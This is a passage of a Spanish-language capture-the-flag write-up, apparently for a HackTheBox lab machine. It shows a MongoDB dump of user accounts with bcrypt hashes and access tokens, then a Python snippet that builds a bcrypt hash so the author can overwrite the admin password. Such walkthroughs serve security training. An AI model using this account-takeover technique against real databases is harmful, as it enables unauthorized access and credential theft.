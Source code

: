 ```console
teams
templates
tickets
tickettypes
> db.accounts.find()
{ "_id" : ObjectId("623c8b20855cc5001a8ba13c"), "preferences" : { "tourCompleted" : false, "autoRefreshTicketGrid" : true, "openChatWindows" : [ ] }, "hasL2Auth" : false, "deleted" : false, "username" : "admin", "password" : "$2b$10$imwoLPu0Au8LjNr08GXGy.xk/Exyr9PhKYk1lC/sKAfMFd5i3HrmS", "fullname" : "Robert Frost", "email" : "rfrost@carpediem.htb", "role" : ObjectId("623c8b20855cc5001a8ba138"), "title" : "Sr. Network Engineer", "accessToken" : "22e56ec0b94db029b07365d520213ef6f5d3d2d9", "__v" : 0, "lastOnline" : ISODate("2022-04-07T20:30:32.198Z") }
{ "_id" : ObjectId("6243c0be1e0d4d001b0740d4"), "preferences" : { "tourCompleted" : false, "autoRefreshTicketGrid" : true, "openChatWindows" : [ ] }, "hasL2Auth" : false, "deleted" : false, "username" : "jhammond", "email" : "jhammond@carpediem.htb", "password" : "$2b$10$n4yEOTLGA0SuQ.o0CbFbsex3pu2wYr924cKDaZgLKFH81Wbq7d9Pq", "fullname" : "Jeremy Hammond", "title" : "Sr. Systems Engineer", "role" : ObjectId("623c8b20855cc5001a8ba139"), "accessToken" : "a0833d9a06187dfd00d553bd235dfe83e957fd98", "__v" : 0, "lastOnline" : ISODate("2022-04-01T23:36:55.940Z") }
{ "_id" : ObjectId("6243c28f1e0d4d001b0740d6"), "preferences" : { "tourCompleted" : false, "autoRefreshTicketGrid" : true, "openChatWindows" : [ ] }, "hasL2Auth" : false, "deleted" : false, "username" : "jpardella", "email" : "jpardella@carpediem.htb", "password" : "$2b$10$nNoQGPes116eTUUl/3C8keEwZAeCfHCmX1t.yA1X3944WB2F.z2GK", "fullname" : "Joey Pardella", "title" : "Desktop Support", "role" : ObjectId("623c8b20855cc5001a8ba139"), "accessToken" : "7c0335559073138d82b64ed7b6c3efae427ece85", "__v" : 0, "lastOnline" : ISODate("2022-04-07T20:33:20.918Z") }
{ "_id" : ObjectId("6243c3471e0d4d001b0740d7"), "preferences" : { "tourCompleted" : false, "autoRefreshTicketGrid" : true, "openChatWindows" : [ ] }, "hasL2Auth" : false, "deleted" : false, "username" : "acooke", "email" : "acooke@carpediem.htb", "password" : "$2b$10$qZ64GjhVYetulM.dqt73zOV8IjlKYKtM/NjKPS1PB0rUcBMkKq0s.", "fullname" : "Adeanna Cooke", "title" : "Director - Human Resources", "role" : ObjectId("623c8b20855cc5001a8ba139"), "accessToken" : "9c7ace307a78322f1c09d62aae3815528c3b7547", "__v" : 0, "lastOnline" : ISODate("2022-03-30T14:21:15.212Z") }
{ "_id" : ObjectId("6243c69d1acd1559cdb4019b"), "preferences" : { "tourCompleted" : false, "autoRefreshTicketGrid" : true, "openChatWindows" : [ ] }, "hasL2Auth" : false, "deleted" : false, "username" : "svc-portal-tickets", "email" : "tickets@carpediem.htb", "password" : "$2b$10$CSRmXjH/psp9DdPmVjEYLOUEkgD7x8ax1S1yks4CTrbV6bfgBFXqW", "fullname" : "Portal Tickets", "title" : "", "role" : ObjectId("623c8b20855cc5001a8ba13a"), "accessToken" : "f8691bd2d8d613ec89337b5cd5a98554f8fffcc4", "__v" : 0, "lastOnline" : ISODate("2022-03-30T13:50:02.824Z") }
```

Como primer usuario vemos el nombre de `admin`, eso ya es sospechoso, así que intentamos actualizar su contraseña:

> Análisis de contraseña

![bcryptPass](bcrypt_hash.png){: shadow}

> Necesitamos generar una contraseña de formato `bcrypt`, para ello usamos `python`:

```python
import bcrypt

password = b'bestpassword123'

salt = bcrypt.gensalt()
password_hash = bcrypt.hashpw(password, salt)

print(password_hash.decode())

# Output
# $2b$12$J0bmFJhw6gJ3HmSfSLmnb.WbdIMkrhEPzMte.kY9f59GhreFX2vs.
```
